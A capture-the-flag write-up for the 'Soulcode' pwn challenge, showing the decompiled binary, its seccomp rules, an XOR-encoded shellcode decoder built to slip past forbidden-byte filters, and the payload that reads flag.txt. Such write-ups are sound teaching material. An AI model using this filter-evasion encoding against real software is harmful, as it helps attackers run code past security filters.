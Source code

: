 ```yaml
---
title: Soulcode
date: 2023-06-05T23:11:16+03:00
tags:
  - pwn
---
```

# Soulcode

The challenge consisted of bypassing various filters to run a shellcode. 

## Main function decompiled


```c
bool main(void)

{
  int iVar1;
  long lVar2;
  undefined8 *puVar3;
  byte bVar4;
  undefined8 local_208;
  undefined8 local_200;
  undefined8 local_1f8 [62];
  
  bVar4 = 0;
  puts("Before you leave the realm of the dead you must leave a message for posterity!");
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_208 = 0;
  local_200 = 0;
  puVar3 = local_1f8;
  for (lVar2 = 0x3c; lVar2 != 0; lVar2 = lVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
  }
  *(undefined4 *)puVar3 = 0;
  read_string(&local_208,500,(undefined4 *)((long)puVar3 + 4)); // READ SHELLCODE FROM USER
  filter(&local_208,4);                                         // FILTER BAD OPCODES
  iVar1 = install_syscall_filter();                             // FILTER BAD SYSCALLS
  if (iVar1 == 0) {
    (*(code *)&local_208)();                                    // RUN SHELLCODE
  }
  return iVar1 != 0;
}
```

You can determine the 3 distinct, important steps that the program does:
1. Read shellcode from user.
2. Filter bad opcodes using the ``filter()`` function.
3. Filter bad syscalls using seccomp in ``install_syscall_filter()``.
4. Run shellcode.

The idea of the challenge was trying to bypass these filters. The forbidden opcodes/bytes were: ``0xCD``, ``0x80``, ``0x0F``, ``0x05``, ``0x89``.

Using ``seccomp-tools dump ./soulcode`` (tool: [seccomp-tools](https://github.com/david942j/seccomp-tools)), we can determine the seccomp-filters are:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```
WARNING: The tool runs the executable, don't use with malware!!!

We can see the only syscalls we are allowed are ``open``, ``read``, ``write`` and ``exit``. This is enough to guess that we might have a ``flag.txt`` in the same directory and try to write its contents to stdout. The alternative to the tool was manually reading the ``install_syscall_filter()`` function and determining the filters, which sucks and nobody wants to do it.


## The solution

Our initial thought was that we have to bypass the forbidden opcodes. We didn't check the opcodes meaning, as there could have been a big number of instructions that containted them. So instead, we thought we can write a shellcode encrypter/decrypter that can decrypt a payload and run it. By having an encrypted payload we can use an arbitrary number of "forbidden" bytes and we only have to care to use permitted bytes in the code for the decrypter. During the CTF, we have taken the liberty to use an encrypter/decrypter (or encoder/decoder) found online, after modifying to fit the situation.

Credits to ired.team for most of the shellcode encoder/decoder: https://www.ired.team/offensive-security/code-injection-process-injection/writing-custom-shellcode-encoders-and-decoders

The interesting additions to the encoder is the ``xor_op`` label - the xorb operation we used there had a ``0x80`` byte in it, which is forbidden. To avoid that we substract one from the byte and then we add one at the beginning of the encoder, at runtime. This will pass the filters succesfully. Also, the encryption key ``0xc``, is picked with trial and error after checking for forbidden bytes after encryption.  

```asm
.global _start
.intel_syntax noprefix
_start:
	# deobfuscate xor_op
	xor rsi, rsi
	movb sil, [rip+xor_op+1]
	inc sil
	movb [rip+xor_op+1], sil
	jmp short shellcode

decoder:
	pop rax                 # store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

setup:
	xor rcx, rcx            # reset rcx to 0, will use this as a loop counter
	mov rdx, 95

decoderStub:
	cmp rcx, rdx            # check if we've iterated and decoded all the encoded bytes
	je encodedShellcode     # jump to the encodedShellcode, which actually now contains the decoded shellcode

	# encodedShellcode bytes are being decoded here per our decoding scheme
	xor rdi, rdi
	movb dil, [rax]
	xor_op: .byte 0x40, 0x7f, 0xf7, 0x0c # obfuscated xor op
	movb [rax], dil

	inc rax                 # point rax to the next encoded byte in encodedShellcode
	inc rcx                 # increase loop counter
	jmp short decoderStub   # repeat decoding procedure

shellcode:
	call decoder            # jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
	encodedShellcode: .byte 0x44, 0xcb, 0xcc, 0xe, 0xc, 0xc, 0xc, 0x44, 0x81, 0x31, 0x3a, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xfa, 0x44, 0x3d, 0xde, 0x3, 0x9, 0x44, 0x85, 0xcb, 0x44, 0x3d, 0xcc, 0x44, 0x85, 0xea, 0x44, 0xcb, 0xce, 0x4c, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0xd, 0xc, 0xc, 0xc, 0x44, 0xcb, 0xcb, 0xd, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0x30, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xf3, 0x3, 0x9, 0x6a, 0x60, 0x6d, 0x6b, 0x22, 0x78, 0x74, 0x78, 0xc
```

The encoded shellcode/payload is simply open ``flag.txt``, read and write to stdout, then exit:

```asm
.global _start
.intel_syntax noprefix
_start:
open:
	mov rax, 0x2
	lea rdi, [rip+flag]
	xor rsi, rsi
	xor rdx, rdx
	syscall

read:
	mov rdi, rax
	xor rax, rax
	mov rsi, rsp
	mov rdx, 0x40
	syscall

write:
	mov rax, 0x1
	mov rdi, 0x1
	syscall

exit:
	mov rax, 0x3c
	xor rdi, rdi
	syscall


flag:
	.string "flag.txt"
```

Then we get the shellcode for everything (check out [getsc](https://github.com/dothidden/tools/blob/main/pwn/getsc)) and we end up with the following payload:  
``\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c``

We then run the payload:  
```
$ echo -ne "\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c" | ./soulcode 
Before you leave the realm of the dead you must leave a message for posterity!
DANTE{.hidden_is_the_best}
�%XH1�H��_H9�t�H1�@�8@��
                        @�8H��H�
```
